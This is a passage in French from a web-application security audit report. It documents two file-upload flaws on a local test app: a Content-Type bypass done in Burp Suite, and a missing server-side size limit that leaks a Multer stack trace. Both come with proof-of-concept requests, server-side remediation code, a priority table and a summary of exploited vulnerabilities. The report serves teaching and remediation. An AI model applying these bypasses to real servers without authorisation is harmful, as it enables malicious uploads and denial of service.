**Requête normale — upload d'un fichier valide**


**Modification du `Content-Type` dans Burp Suite**

```
Requête originale  : Content-Type: image/jpeg
Requête modifiée   : Content-Type: application/pdf
```


**Modification de l'extension du fichier**


>  Upload non-image accepté
> Le serveur accepte la requête malgré le type MIME non-image.
> Aucune validation côté serveur du type réel du fichier.

#### Impact et risques

- 🟡 Upload de fichiers malveillants (webshells, scripts)
- 🟡 Stockage de fichiers non désirés sur le serveur
- 🟡 Vecteur potentiel pour des attaques côté client si les fichiers sont servis directement

#### Remédiation

```javascript
// ✅ Validation magic bytes côté serveur
const fileType = require('file-type');
const ALLOWED = ['image/jpeg', 'image/png', 'image/gif'];

const type = await fileType.fromBuffer(fileBuffer);
if (!type || !ALLOWED.includes(type.mime)) {
  return res.status(400).json({ error: 'Type de fichier non autorisé' });
}
```

---

### 5.5 🟡 Upload de fichier — Absence de limite de taille côté serveur

| Attribut | Valeur |
|---|---|
| **Sévérité** | 🟡 Moyen |
| **OWASP** | A05:2021 – Security Misconfiguration |
| **Endpoint** | `POST /file-upload` |

#### Description

L'interface impose une limite de taille **uniquement côté client**. En interceptant la requête avec Burp Suite et en substituant un fichier volumineux (`big.pdf` > 100 KB), le serveur accepte l'upload sans aucune vérification. L'envoi d'un fichier dépassant la limite interne de Multer génère une erreur 500 qui expose la **stack trace** complète du serveur.

#### Exploitation — Preuve de concept

**Fichier utilisé : `big.pdf` — taille > 100 KB**



Cette capture montre le fichier `big.pdf` utilisé pour l'attaque, dont la taille dépasse 100KB. Ce fichier est volontairement choisi pour contourner la limitation côté client imposée par l'interface.

**Requête `POST /file-upload` interceptée dans Burp Suite**



Cette capture présente la requête HTTP `POST /file-upload` interceptée via Burp Suite. On peut y observer le champ `multipart/form-data` contenant le fichier envoyé, ainsi que le contenu volumineux du fichier, modifié manuellement pour dépasser la limite autorisée côté client.

```http
POST /file-upload HTTP/1.1
Host: localhost:3000
Content-Type: multipart/form-data; boundary=----FormBoundary

------FormBoundary
Content-Disposition: form-data; name="file"; filename="big.pdf"
Content-Type: application/pdf

[contenu binaire > 100KB]
```

**Réponse du serveur**


>  Résultat — Challenge confirmé
> - Réponse code **204** obtenue pour la requête interceptée et modifiée via Burp
> - Absence de validation de taille côté serveur confirmée
> - La stack trace expose **Express ^4.22.1** et les chemins internes

**Stack trace exposée :**

```
500 MulterError: File too large
  at abortMultipartUpload (.../multer/lib/make-middleware.js:73)
  at FileStream.<anonymous> (.../multer/lib/make-middleware.js:136)
  at writable.write (node:internal/streams/writable:372:12)
```

#### Impact et risques

- 🟡 Déni de service (DoS) par saturation mémoire — uploads massifs non limités
- 🟡 Exposition de la stack trace — architecture interne, dépendances, versions
- 🟡 Informations exploitables pour identifier des CVE sur Express et Multer
- 🟡 Combiné à la vuln 5.4 : upload non contrôlé de fichiers arbitraires volumineux

#### Remédiation

```javascript
// ✅ Limite de taille côté serveur (Multer)
const upload = multer({ limits: { fileSize: 500 * 1024 } }); // 500 Ko max

// ✅ Masquer la stack trace en production
app.use((err, req, res, next) => {
  res.status(500).json({ error: 'Erreur interne' }); // jamais err.stack
});
```

---

## 6. Phase 4 — Remédiation

### 6.1 Tableau de priorités

| Vulnérabilité | Correctif recommandé | Priorité |
|---|---|---|
| Injection SQL | Requêtes préparées + ORM + validation serveur | 🔴 Critique |
| XSS Réfléchi | Encodage HTML des sorties + CSP stricte | 🟠 Élevé |
| CSRF | Tokens CSRF par session + `SameSite=Strict` | 🟠 Élevé |
| Upload MIME non validé | Validation magic bytes côté serveur + liste blanche | 🟡 Moyen |
| Upload taille serveur | Config Multer + gestion d'erreur sans stack trace | 🟡 Moyen |

### 6.2 Principe fondamental

>  Validation côté client vs côté serveur
> **Côté client (JavaScript)** = peut être contourné en quelques secondes avec les DevTools ou Burp Suite — ne protège **jamais** contre un attaquant.
>
> **Côté serveur** = seule protection fiable. Toutes les vulnérabilités de ce rapport exploitent l'absence de validation côté serveur.

---

## 7. Conclusion

Cet audit a permis de démontrer que des vulnérabilités classiques — injection SQL, XSS, CSRF, contrôle d'upload insuffisant — restent facilement exploitables sans bonnes pratiques de développement sécurisé.

La combinaison d'outils automatisés (**ffuf**, **EyeWitness**, **OWASP ZAP**, **sqlmap**) et de techniques manuelles (**Burp Suite**) a permis une couverture complète de la surface d'attaque, de la reconnaissance initiale jusqu'à l'exfiltration de données.

### Bilan final

| Métrique | Résultat |
|---|---|
| Répertoires découverts | 92 endpoints |
| Requêtes ZAP analysées | 11 639 |
| Alertes ZAP | 145 |
| Vulnérabilités exploitées | **5** |
| Critiques | 1 |
| Élevées | 2 |
| Moyennes | 2 |
| Tables DB exfiltrées | 21 |
| Utilisateurs extraits | 22 |

> *La sécurité applicative n'est pas une fonctionnalité optionnelle — c'est une exigence fondamentale à intégrer dans chaque phase du cycle de développement. La validation côté client ne protège pas : seul le serveur a le dernier mot.*

---

*Rapport rédigé par Mohamed EL AAMRANI — 30 Mars 2026 — Usage pédagogique exclusif*
